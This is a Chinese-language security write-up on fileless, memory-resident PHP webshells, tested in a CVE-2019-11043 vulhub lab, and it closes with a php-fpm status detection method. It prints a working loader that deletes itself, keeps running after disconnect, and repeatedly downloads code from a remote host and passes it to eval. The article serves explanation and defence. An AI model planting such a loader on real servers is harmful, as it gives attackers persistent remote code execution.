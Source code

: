 一、写在前面
------

所谓"进程驻留"的php无文件攻击，利用了PHP的"解析执行特性"。先执行一个shellcode加载器，加载器运行后删除自身，并加载远程文件（远程文件是被当成字符串直接下载到php进程中执行），动态加载并执行真正的shellcode。

因此，shellcode加载器执行后，删除自身。但是真正执行shellcode的操作在内存中进行，整个过程shellcode不落地。

二、攻击原理
------

- 2.1 shellcode加载器Demo

```php
<?php
    chmod($_SERVER['SCRIPT_FILENAME'], 0777);
    unlink($_SERVER['SCRIPT_FILENAME']);
    ignore_user_abort(true);
    set_time_limit(0);
    echo "success";
    $remote_file = 'http://x.x.x.x/shellcode';
    while($code = file_get_contents($remote_file)){
    @eval($code);
    echo "xunhuan";
    sleep(5);
    };
?>
```

下面做一个简单的分析：

```php
ignore_user_abort(true); 
```

主要用于**后台运行**。这个函数的作用是指示服务器端在远程客户端关闭连接后是否继续执行下面的脚本。如设置为True，则表示如果用户停止脚本运行，仍然不影响脚本的运行。

```php
set_time_limit(0); 
```

主要用于**取消脚本运行时间的超时上限**。函数参数是执行时间，如果为零说明永久执行直到程序结束。如果为大于零的数字，则不管程序是否执行完成，到了设定的秒数，程序结束。但是，脚本也有可能被中间件的默认超时打断。  
中间件的默认超时时间可以通过设置 php.ini 的 max\_execution\_time 或 Apache .conf 的“php\_value max\_execution\_time”来更改。

```php
unlink($_SERVER['SCRIPT_FILENAME']);
```

主要用于**删除自身**。unlink函数运行条件较为苛刻，该脚本要具备可执行权限、可修改文件权限时方能执行。

- 2.2 shellcodeDemo
    
    file\_put\_contents('printTime.txt','I am running '.time());
- 2.3 效果

shellcode加载器执行后，删除自身，并在当前目录生成 printTime.txt。通过循环，每隔5秒执行一次。

这里可以使用CVE-2019-11043的vulhub试验：

上传加载器。

[![](https://shs3.b.qianxin.com/attack_forum/2021/04/attach-7f9b0acc05034310957487098116db3eff960d82.png)](https://shs3.b.qianxin.com/attack_forum/2021/04/attach-7f9b0acc05034310957487098116db3eff960d82.png)

执行加载器。然后观察shellcode是否运行（查看是否循环写入时间戳）。

[![](https://shs3.b.qianxin.com/attack_forum/2021/04/attach-a28b7eec87af81155315426d0c22b69d7cf164f1.png)](https://shs3.b.qianxin.com/attack_forum/2021/04/attach-a28b7eec87af81155315426d0c22b69d7cf164f1.png)

此时，加载器已经删除自身了。

[![](https://shs3.b.qianxin.com/attack_forum/2021/04/attach-1fd62e5362870c4a4b89e49cb7e9fb5ec385e0af.png)](https://shs3.b.qianxin.com/attack_forum/2021/04/attach-1fd62e5362870c4a4b89e49cb7e9fb5ec385e0af.png)

二、检测方案
------

此类webshell一直在内存中执行，因此该请求短时间内不会被php-fpm释放，可以通过检测php-fpm status中的进程信息。

开启php-fpm status 可参考：  
<https://segmentfault.com/a/1190000005792041>

status 中字段的含义可参考：  
<https://www.cnblogs.com/tinywan/p/6848269.html>

在我们的测试环境中（CVE-2019-11043的vulhub），可以通过修改配置文件：

```php
/usr/local/etc/php-fpm.d/www.conf
```

将pm.status\_path = /status 此行注释取消，重启php-fpm容器即可。重启后查看：

```php
http://x.x.x.x:8080/status?full
```

通过解析php-fpm status的数据，可以观察以下特征：

1. 处理请求的持续时间。字段： `request duration`
2. 检测执行文件是否在文件系统真实存在。字段： `script`

这里贴一个对以上Demo的检测结果：

[![](https://shs3.b.qianxin.com/attack_forum/2021/04/attach-6ebfe411fddabc9ab0358ebdfcce1ce041c4342c.png)](https://shs3.b.qianxin.com/attack_forum/2021/04/attach-6ebfe411fddabc9ab0358ebdfcce1ce041c4342c.png)